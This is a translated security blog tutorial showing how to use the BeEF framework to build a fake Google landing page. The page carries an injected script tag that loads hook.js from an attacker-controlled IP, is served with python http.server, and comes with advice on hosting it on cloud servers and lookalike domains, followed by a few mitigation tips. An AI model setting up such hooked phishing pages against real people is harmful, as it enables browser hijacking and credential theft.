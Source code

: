 # 黑客如何用一个链接黑掉你

> 原文：<https://infosecwriteups.com/how-the-hacker-hack-you-just-with-a-link-f087a806e35?source=collection_archive---------1----------------------->

## 用浏览器黑客指南

![](img/88053f0335c1c25d302a844284a296a2.png)

克林特·帕特森在 [Unsplash](https://unsplash.com?utm_source=medium&utm_medium=referral) 上拍摄的照片

一个著名的工具就是牛肉。Browser Exploit Framework 或简称 BeEF 是一个允许您制作包含 JavaScript 的受控网页的工具。您将能够根据打开您页面的特定客户端来更改内容。

## 如何在 Kali Linux 中安装 BeEF

你可以用 apt 命令安装它。

```
sudo apt install beef-xss
```

安装完成后，检查应用程序中的 beef

![](img/9664e57bf8cdda8ca14b815f81aaf0ae.png)

然后点击**牛肉开始，**点击后，终端会打开，提示您输入牛肉的 Web UI 的新密码，并复制钩子粘贴到山寨网站。

![](img/28437b8c7101335cb2b6e7f0b84bb129.png)

大约 5 秒钟后，您的浏览器将自动打开 Web 用户界面，

![](img/81a65874f1366c54c473c3eff5a2000a.png)

用**牛肉登录:<你的密码>。**

## 用 BeEF 代码注入设置一个 google 的克隆

我从这个 github repo->[https://github.com/anirudhbelwadi/Google-Landing-Page](https://github.com/anirudhbelwadi/Google-Landing-Page)中克隆了一个谷歌登陆页面

```
git clone [https://github.com/anirudhbelwadi/Google-Landing-Page.git](https://github.com/anirudhbelwadi/Google-Landing-Page.git)
```

在 head 标签之间用牛肉服务器的 hook.js 修改了**index.html**文件。

```
<script src="http://<IP>:3000/hook.js"></script>
```

![](img/bcc43c52bec8f9ad794188c9d88b2ebe.png)

并用 python http.server 测试服务器

```
python3 -m http.server 80
```

![](img/e86d927e5435de574b25cb3f84e652bf.png)

打开浏览器，

![](img/cc07ff5772458aac3427e99f7538b516.png)

是的，我们终于有了一个假网站。

当我登录 BeEF Web UI 时，假的登录页面运行良好。

![](img/2937b3f722491e2e52a270999cfd45ad.png)

## 该进攻了

黑客通常使用云来进行这种攻击，因为他们有一个公共 IP 地址。然后，他们只是注册免费域名，使之像合法的。

![](img/1f28697c2ba948d87f55945b433606df.png)

## 如何减轻这种攻击

以下是预测这种攻击的一些提示:

*   千万不要相信任何链接。
*   使用 JavaScript 拦截器加载项
*   当您想要输入任何凭证时，请务必检查 URL
*   千万不要相信公共 WIFI

## 结论

牛肉比我之前的解释有用。在同一个网络中，攻击者可以利用注入的 hook.js 欺骗合法的 URL，这种方法被称为 MITM(中间人)。
著名的手法是制作一个假网站和假域名，然后给你发一封钓鱼邮件。

小心并保持安全。

Infosec Writeups 团队刚刚完成了我们的第一次虚拟网络安全会议和网络活动。我们有 16 位出色的演讲者，他们主持了非常有价值和鼓舞人心的会议。要查看所有 16 场讲座的发言人和主题列表，请点击此处。

[](https://iwcon.live/) [## IWCon2022 — Infosec 书面报告虚拟会议

### 与世界上最优秀的信息安全专家建立联系。了解网络安全专家如何取得成功。将新技能添加到您的…

iwcon.live](https://iwcon.live/)